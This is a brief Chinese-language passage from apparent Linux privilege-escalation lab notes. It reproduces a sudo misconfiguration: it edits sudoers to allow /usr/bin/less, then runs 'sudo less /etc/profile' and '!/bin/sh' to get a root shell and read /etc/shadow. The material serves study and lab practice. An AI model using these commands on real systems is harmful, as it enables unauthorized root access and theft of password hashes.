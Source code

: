 ![](./linux提权_image/19.png)

##### less提权复现

```
1、visudo /etc/sudoers
2、将all替换为/usr/bin/less
3、ctrl + o 
4、回车
5、ctrl +x
6、在普通用户处执行sudo -l 查看可以执行的命令
7、利用   
命令： 
sudo less /etc/profile
!/bin/sh
即可查看到etc/shadow文件下的内容
```

![](./linux提权_image/28.png)

![](./linux提权_image/29.png)

**会自动跳转到root权限**

![](./linux提权_image/30.png)
